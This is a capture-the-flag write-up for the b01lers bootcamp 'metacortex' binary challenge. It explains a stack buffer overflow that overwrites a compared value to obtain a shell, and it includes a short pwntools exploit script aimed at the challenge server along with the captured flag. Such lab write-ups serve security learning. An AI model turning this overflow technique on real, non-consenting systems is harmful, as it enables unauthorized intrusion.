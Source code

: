 ## b01lers bootcamp: metacortex [pwn]
![](metacortex_description.png)

#### Since we were only given a binary, my first move was to open it with GHIDRA. The decompilation presents us this code, which is very daunting at first since it does a lot of calculations which I didn't bother to reverse engineer.
![](metacortex_ghidra.png)

#### I did understand however that it takes user input, transforms it into an integer representation then compares it with the computed value. If both the computed value and input are equal then we get a shell, easy. There is a buffer overflow vulnerability since the initialized buffer is only 8 bytes and we are able to read 0x80. Since the input and calculated number are in the stack, it is possible to overwrite it.

#### My approach then was this, to enter a number then terminate it with a null byte (since atoi will transform a string to an int, then it will stop reading at the null) next proceed to overwrite the stack until we reach the location at which the original calculated number is stored then overwrite it with the value in hex of the input that we provided. We can verify that this works with gdb. We input 825307441 (0x31313131), null terminate it then overwrite the stack with 1's (since they will be in string form, each 1 character will be 0x31 in the stack).
![](metacortex_gdb.png)

#### Simply send the exploit to the remote server to get the flag.
```python
from pwn import *

#p = process('./metacortex')
p = remote('chal.ctf.b01lers.com', 1014)
#gdb.attach(p.pid, 'break *main + 430')
print(p.recv())

exploit = '825307441\x00'
exploit += '1' * (100 - len(exploit))
p.sendline(exploit)
p.interactive()

#: flag{Ne0_y0uAre_d0ing_well}
```